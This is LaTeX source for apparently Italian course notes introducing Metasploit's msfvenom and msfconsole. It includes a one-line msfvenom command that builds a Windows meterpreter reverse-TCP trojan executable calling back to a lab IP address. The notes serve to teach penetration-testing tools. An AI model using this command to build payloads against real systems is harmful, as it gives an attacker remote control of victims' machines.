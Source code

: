 \documentclass{article}
\begin{document}
\subsection{Pratica}
\begin{itemize}
    \item \textbf{Msvenom:} è un tool incluso nel framework metasploit, in grado di creare creare exploit, 
    payload… Per poterlo utilizzare bisogna semplicemente aprire il terminale e digitare la pipeline di 
    creazione dell’exploit, specificando i parametri desiderati.
    \item \textbf{Msfconsole:} anch’esso è un tool di metasploit. La differenza sostanziale col precedente 
    è che esso fornisce un’interfaccia “grafica” e che la pipeline viene costruita man mano.
\end{itemize}
\begin{figure}[H]
    \center
    \includegraphics[scale=0.23]{images/MsfvenomMsfconsoleScreen.png}
    \caption{Esempio di utilizzo dei due tool}\label{fig:1}
\end{figure}
\subsubsection{Creazione di un malware con msfvenom}
\begin{lstlisting}[language=bash]
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.179.128 
    LPORT=8080 -f exe -o trojan.exe
\end{lstlisting}
\begin{figure}[H]
    \center
    \includegraphics[scale=0.35]{images/MsfvenomExample.png}
    \caption{Esempio creazione malware}\label{fig:1}
\end{figure}
\end{document}
